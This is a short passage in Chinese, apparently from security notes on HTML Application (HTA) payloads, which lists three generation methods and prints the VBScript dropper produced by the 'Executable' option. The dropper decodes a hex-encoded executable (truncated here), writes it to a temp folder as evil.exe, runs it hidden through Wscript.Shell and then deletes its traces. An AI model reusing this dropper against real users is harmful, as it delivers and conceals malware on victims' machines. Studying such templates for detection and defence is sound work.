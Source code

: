 ![HTA 组成部分.png](assets/1708583825-84c186639e15725385514fdc6d346418.png)

HTML Application 菜单有三个方法：

-   Executable
-   PowerShell
-   VBA

Executable 生成内容是 VBScript 脚本，使用 Wscript.Shell 运行代码。

```plaintext
<script language="VBScript">
    Function var_func()
        var_shellcode = "4d5a90000300000004000000ffff0000b8000......"

        Dim var_obj
        Set var_obj = CreateObject("Scripting.FileSystemObject")
        Dim var_stream
        Dim var_tempdir
        Dim var_tempexe
        Dim var_basedir
        Set var_tempdir = var_obj.GetSpecialFolder(2)
        var_basedir = var_tempdir & "\" & var_obj.GetTempName()
        var_obj.CreateFolder(var_basedir)
        var_tempexe = var_basedir & "\" & "evil.exe"
        Set var_stream = var_obj.CreateTextFile(var_tempexe, true , false)
        For i = 1 to Len(var_shellcode) Step 2
            var_stream.Write Chr(CLng("&H" & Mid(var_shellcode,i,2)))
        Next
        var_stream.Close
        Dim var_shell
        Set var_shell = CreateObject("Wscript.Shell")
        var_shell.run var_tempexe, 0, true
        var_obj.DeleteFile(var_tempexe)
        var_obj.DeleteFolder(var_basedir)
    End Function

    var_func
    self.close
</script>
```
